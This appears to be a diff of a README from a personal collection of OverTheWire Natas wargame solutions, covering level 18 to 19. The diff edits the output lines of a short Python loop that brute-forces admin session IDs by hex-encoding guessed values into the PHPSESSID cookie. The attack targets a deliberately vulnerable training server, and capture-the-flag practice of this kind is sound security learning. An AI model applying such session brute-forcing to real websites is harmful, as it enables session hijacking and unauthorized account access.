

Natas: level18 to level19

Changed region(s): [[0.0, 0.0, 1.0, 0.984]]

diff --git a/Natas/Level18 to Level19/README.md b/Natas/Level18 to Level19/README.md
@@ -43,10 +43,10 @@ for i in range(1, 640 + 1):
     COOKIES['PHPSESSID'] = bytes.hex(str(i).encode() + b'-admin')
     res = get(url=URL, auth=AUTH, cookies=COOKIES)
     if "Password" in res.text:
-        print(f"admin PHPSESSID value is: {i}")
+        print(f"admin PHPSESSID value is: {COOKIES['PHPSESSID']} ({str(i)+'-admin'})")
         break
     else:
-        print(f"admin PHPSESSID value is NOT: {i}")
+        print(f"admin PHPSESSID value is NOT: {COOKIES['PHPSESSID']} ({str(i)+'-admin'})")
 
 print(res.text)
 ```
